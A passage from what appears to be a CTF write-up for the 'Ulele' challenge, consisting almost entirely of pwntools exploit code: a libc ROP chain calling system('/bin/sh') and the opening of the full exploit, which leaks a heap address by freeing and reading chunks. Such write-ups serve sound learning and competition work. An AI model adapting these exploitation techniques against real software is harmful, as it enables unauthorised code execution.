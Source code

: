 ```py
sh_str  = libc.search(b"/bin/sh\0").__next__()
system  = libc.sym['system']
chain   = [ret]+[rdi,sh_str,system]
add(flat([1]+chain))

# gdb.attach(p)
p.interactive()
...
```

# 0x05 Ulele: The Whole Exploitation

```py
from pwn import *
# context.log_level   ='debug'
context.arch        ='amd64'
'''
Libc Lib:
    https://libc.rip/
'''
# context.terminal = ['tmux', 'splitw', '-h', '-F' '#{pane_pid}', '-P']
p=process('./ulele')#,env={"LD_PRELOAD":"/glibc/x64/2.35/lib/libc.so.6"})
# p = remote("ulele.chal.crewc.tf",1337)
ru 		= lambda a: 	p.readuntil(a)
r 		= lambda n:		p.read(n)
sla 	= lambda a,b: 	p.sendlineafter(a,b)
sa 		= lambda a,b: 	p.sendafter(a,b)
sl		= lambda a: 	p.sendline(a)
s 		= lambda a: 	p.send(a)

# libc = ELF("../libc.so.6")
def cmd(c):
    sla(b'>> ',str(c).encode())
def add(c='nop'):
    cmd(1)
    sa(": ",c)
def show(idx):
    cmd(2)
    sla(": ",str(idx).encode())
def free(idx):
    cmd(3)
    sla(": ",str(idx).encode())

def leak(a,x=0,mute=0):
    ru(a)
    if x: # when to stop
        leaked = int(ru(x)[:-1],16)
    else:
        leaked = u64(p.read(6)+b'\0\0')
    if mute==0:
        warn(hex(leaked))
    return leaked


for x in range(0x240):
    add()
free(0x100)
show(0x0)
ru(b': ')
heap = u64(ru(b'\n')[:-1].ljust(0x8,b'\0'))<<12
warn(hex(heap))

```

[0]: https://github.com/n132/CTF-Write-Up/tree/main/2024-Crew-CTF/Ulele